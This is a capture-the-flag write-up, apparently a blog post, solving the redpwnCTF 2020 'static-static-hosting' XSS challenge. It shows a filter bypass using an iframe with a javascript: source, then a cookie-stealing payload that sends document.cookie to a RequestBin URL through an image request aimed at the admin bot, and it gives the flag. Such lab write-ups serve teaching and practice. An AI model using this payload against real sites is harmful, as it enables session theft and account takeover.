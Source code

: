 ```yaml
---
layout: post
title: "static-static-hosting"
author: "shreyas-sriram"
---
```


Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here.

`https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting` (aadmin-bot)

Site: `static-static-hosting.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<script>` and only certain attributes like `src, width, height, alt, class` can be used
* This is one of the payloads that works<br/>
` <iframe src="javascript:alert(1)"> `
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
` <iframe src="javascript:var img = new Image(0,0); img.src='http://<RequestBinURL>/image.php?c=' + document.cookie; document.body.appendChild(img);"></iframe> `
* Copy the URL and submit to the admin-bot\
URL  :  ` https://static-static-hosting.2020.redpwnc.tf/site/#<Base64-payload> `
* View the logs on the **RequestBinURL** to obtain the flag
` flag{wh0_n33d5_d0mpur1fy} `